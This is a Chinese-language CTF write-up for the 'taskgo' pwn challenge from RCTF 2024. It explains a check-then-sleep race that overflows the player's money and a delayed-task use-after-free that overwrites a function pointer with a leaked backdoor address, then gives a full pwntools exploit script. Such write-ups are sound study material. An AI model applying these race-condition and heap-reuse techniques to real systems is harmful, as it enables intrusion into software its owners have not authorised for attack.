

# taskgo 

From XCTF x RCTF 2024

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |on    |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

程序里编译了一个chromium的工具集进去，逆向压力猛增

主要利用了2个条件竞争：

### 第一处

在`CheckMoney`中，函数会先检查玩家的钱是否足够，然后sleep 1秒再扣除，
那么尝试让2次扣钱的操作同时检查，就可以同时扣除，溢出money成一个很大的值

具体来说，是同时买 *Silver Boat* 和 *Flame Scroll*

动调来看，进入Rapid Advance分支后买东西是由`PostTask`发起的，
在IOThread中运行；进入Magic Castle分支买东西在主线程中运行，
故存在条件竞争


要先买船！要不然买法卷会阻塞输入线程导致无法同时买船

### 获取`BackDoor`

通过交叉引用不难看出程序中`Log`函数输出了`BackDoor`，`BackDoor`可以读取文件：
参数是`basic_string`，内容是玩家名字，将文件打开并输出，而参数设置在调用`Log`时完成

要想获取`BackDoor`的地址，只需要购买三种法卷并学习，然后在Magic Castle分支输入1337，
亦即执行`Gods`函数

chromium的std字符串与llvm的libc++中的std字符串一致，这是它的结构：

```c
  struct __long { // if string longer than 23 (including \0)
    char *__data_;
    size_t __size_;
    size_t __cap_ : sizeof(size_t) * 8 - 1;
    size_t __is_long_ : 1;
  };

  struct __short { // if string shorter than 23
    value_type __data_[23];
    unsigned char __size_    : 7;
    unsigned char __is_long_ : 1; // bit field to tag which type is used
  };

  struct basic_string {
    union {
      __long __l;
      __short __s;
    }
  };
```

### 第二处

可以注意到在执行`Gods`前提示等待5s，可能这里也能利用

具体来说，主线程运行到`$rebase(0x4ab8f)`时，post delayed task，
把要运行的函数`Gods`和它的参数`MagicHeld *held`存到`OnceCallback`中，
然后等待3,000,000 **微秒** 后交给IOThread来运行，而`Log`的函数指针，
正好存放在`held`上

在`OnceCallback`中，0x20处存放了要运行的函数指针，0x30处则存放了参数，
这个参数写入了以后就保持不变

已知`DropMS`可以释放`held`，在买了木船后触发`FiveStar`读取用户输入，
随后触发`NoteStar`分配一个输入的内容大小的堆块并将输入的字符串复制上去

在`$rebase(0x4c658)`的位置还可以看到给`held`分配的大小为0x30，
那么只要我们的输入长度与0x30一致，就可以将刚释放的堆块拿回来写入

基于以上思考，我们就可以得出利用链了：



## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './taskgo'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
    else:
        sh = remote('', 9999)

    def dbg():
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x4b82b)\nc')

    sh.sendline(b'flag') # username
    dbg()
    # buy $1000 silver boat
    sh.sendline(b'1')
    sh.sendline(b'2')
    # buy $10000 flame scroll
    sh.sendline(b'2')
    sh.sendline(b'1')
    sh.sendline(b'1')
    # trigger race condition
    sleep(1.25)
    recv = sh.recv()
    if b'4294' in recv:
        success('money value is overflowed')
    else:
        warn('fail to overflow money')
        sh.close()
        return 0

    FLAME_SCORLL = b'1'
    WATER_SCROLL = b'2'
    STONE_SCROLL = b'3'
    def learnMagic(scroll:bytes, skip:bool=False):
        if not skip:
            # buy scroll
            sh.sendline(b'2')
            sh.sendline(b'1')
            sh.sendline(scroll)
        # learn
        sh.sendline(b'2')
        sh.sendline(b'3')
        # drop the scroll
        sh.sendline(b'2')
        sh.sendline(b'2')
    learnMagic(FLAME_SCORLL, True)
    learnMagic(WATER_SCROLL)
    learnMagic(STONE_SCROLL)
    info('learned 3 magics')

    # buy ms first so we can use "1337"
    sh.sendline(b'2')
    sh.sendline(b'1')
    sh.sendline(b'1')
    # trigger Gods
    sh.sendline(b'2')
    sh.sendline(b'1337')
    sh.recvuntil(b'gift: ')
    backdoor = int(sh.recvline(), 16)
    success(f'Get BackDoor addr: {backdoor:#x}')
    
    # dbg()
    info('syncing program flow...')
    sleep(2)
    # trigger Gods, 3s to do what we want
    sh.sendline(b'2')
    sh.sendline(b'1337')

    # release held pointer
    sh.sendline(b'2')
    sh.sendline(b'2')
    # buy a wooden boat to invoke five-star
    sh.sendline(b'1')
    sh.sendline(b'1')

    # trigger five-star
    info('wait 1s so that we can get into FiveStar')
    sleep(1.5)
    sh.sendline(b'3')
    # alloc held back and overwrite it
    sh.sendlineafter(b'five-star', b'0'*0x28 + p64(backdoor))

    sh.recvuntil(b'RCTF{')
    success(f'Flag is: {"RCTF{"}{sh.recvuntil(b"}").decode()}')
    sh.close()
```
